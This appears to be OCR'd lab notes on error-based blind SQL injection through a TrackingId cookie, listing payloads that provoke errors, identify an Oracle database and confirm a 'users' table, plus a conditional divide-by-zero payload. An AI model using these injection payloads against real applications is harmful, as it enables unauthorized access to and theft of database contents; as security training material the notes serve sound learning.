 1. TrackingId=xyz' => Internal server error
2. TrackingId=xyz'' => No error => Syntax error has detectable effect on the response.
3. TrackingId=xyz'||(SELECT '')||' => Internal server error although valid query.
4. TrackingId=xyz'||(SELECT '' FROM dual)||' => No error => Oracle database.
5. TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||' => No error => there is a table named users.
6. ' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' FROM dual END)='a